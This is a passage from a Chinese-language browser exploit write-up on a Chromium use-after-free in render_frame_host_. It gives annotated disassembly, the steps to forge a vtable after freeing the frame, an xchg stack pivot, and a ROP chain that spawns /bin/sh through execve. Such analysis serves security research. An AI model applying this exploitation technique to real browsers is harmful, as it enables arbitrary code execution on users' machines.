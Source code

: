 之后我们再回到上面的store函数，来看看if (!render_frame_host_->IsRenderFrameLive())的执行效果：

```
0x3c581c0 <store>:  push   rbp
0x3c581c1 <store>+1>:   mov    rbp,rsp
0x3c581c4 <store>+4>:   push   r15
0x3c581c6 <store>+6>:   push   r14
0x3c581c8 <store>+8>:   push   r13
0x3c581ca <store>+10>:push   r12
0x3c581cc <store>+12>:push   rbx
0x3c581cd <store>+13>:sub    rsp,0x18
0x3c581d1 <store>+17>:mov    r14,rdx
0x3c581d4 <store>+20>:mov    r13,rsi
0x3c581d7 <store>+23>:mov    r15,rdi
0x3c581da <store>+26>:mov    rdi,QWORD PTR [rdi+0x8] => rdi是Impl结构的地址，根据上文可以知道rdi+8存储的是render_frame_host的值，存储到rdi
0x3c581de <store>+30>:mov    rax,QWORD PTR [rdi] => 将vtable存储到rax
0x3c581e1 <store>+33>:call   QWORD PTR [rax+0x160] => rax+0x160是IsRenderFrameLive的地址
0x3c581e7 <store>+39>:test   al,al
0x3c581e9 <store>+41>:je     0x3c58294 <store>+212>
```

偷大佬一个图（看起来会形象一些）：

![](./img/2.png)



整理下思路：
- 1、kill掉子frame将render_frame_host_释放
- 2、在render_frame_host_结构中伪造vtable，布置rop
- 3、将vtable修改为fake vtable的地址
- 4、xchg栈劫持

xchg gadget如下：
![](./img/3.png)
rax处此时为fake vtable的地址，也就是我们布置好的rop，这样就可以执行我们的rop链。

rop可以使用syscall
```
pop rdi; ret;
"/bin/sh\x00"
pop rsi; ret;
0
pop rdx; ret;
0
pop rax; ret;
59
syscall
```
